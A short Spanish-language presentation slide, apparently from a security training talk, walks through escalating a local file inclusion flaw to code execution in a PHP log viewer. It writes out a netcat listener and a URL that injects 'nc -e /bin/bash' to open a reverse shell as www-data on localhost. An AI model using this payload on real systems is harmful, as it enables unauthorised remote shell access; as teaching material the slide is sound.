

# Ejemplos
LFI a RCE Inyección de código
Como explotar este ejemplo

Ahora que pudimos ejecutar el comando de sistema “id” sabemos que podemos correr otros.

Intentemos una conexión reversa

Computadora atacante (listener)
nc -lvp 4444

Browser
http://127.0.0.1:8080/dc506/lfi-viewer.php?log=access.log&cmd=nc -e /bin/bash 127.0.0.1 4444&submit=Submit

Como resultado tenemos una conexión con el usuario www-data